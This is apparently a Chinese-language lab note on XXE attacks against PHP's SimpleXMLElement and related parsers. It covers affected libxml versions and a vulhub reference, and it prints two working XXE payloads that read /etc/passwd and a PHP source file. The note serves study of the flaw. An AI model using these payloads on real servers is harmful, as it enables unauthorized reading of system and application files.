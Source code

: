 # SimpleXMLElement

## 参考

- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
- https://www.php.net/manual/en/class.simplexmlelement.php
- https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/
- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test

## 利用范围

- (libxml<2.9.0, PHP 5, PHP 7)

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

## 介绍

除了`SimpleXMLElement`类可以进行XXE攻击，现在知道的有如下类和函数

`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`

**前置知识**

- [XML](../VUL/XML.md)
- [DTD](../VUL/DTD.md)

## 测试

post发包并添加http头：

- `Content-Type: text/xml`

payload：
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`?>`，加上就好了。

